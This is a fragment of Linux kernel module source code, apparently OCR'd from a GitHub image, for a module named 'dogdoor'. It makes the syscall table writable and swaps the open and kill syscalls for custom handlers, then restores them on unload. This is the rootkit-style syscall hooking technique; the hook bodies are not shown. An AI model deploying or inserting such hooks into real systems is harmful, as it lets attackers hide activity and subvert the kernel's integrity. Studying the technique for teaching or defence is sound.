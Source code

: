             pte = lookup_address((unsigned long) sctable, &level) ;
            if (pte->pte &~ _PAGE_RW)
                    pte->pte |= _PAGE_RW ;
    
            //intercept the call to my custmized functions
            sctable[__NR_open] = dogdoor_sys_open ;
            sctable[37] = dogdoor_sys_kill ;
    
            return 0;
    }
    
    static
    void __exit dogdoor_exit(void) {
            unsigned int level ;
            pte_t * pte ;
            remove_proc_entry("dogdoor", NULL) ;
    
            //return the original system calls
            sctable[__NR_open] = orig_sys_open ;
            sctable[37] = orig_sys_kill ;
    
            pte = lookup_address((unsigned long) sctable, &level) ;
            pte->pte = pte->pte &~ _PAGE_RW ;
    
    }
    
    module_init(dogdoor_init);
    module_exit(dogdoor_exit);

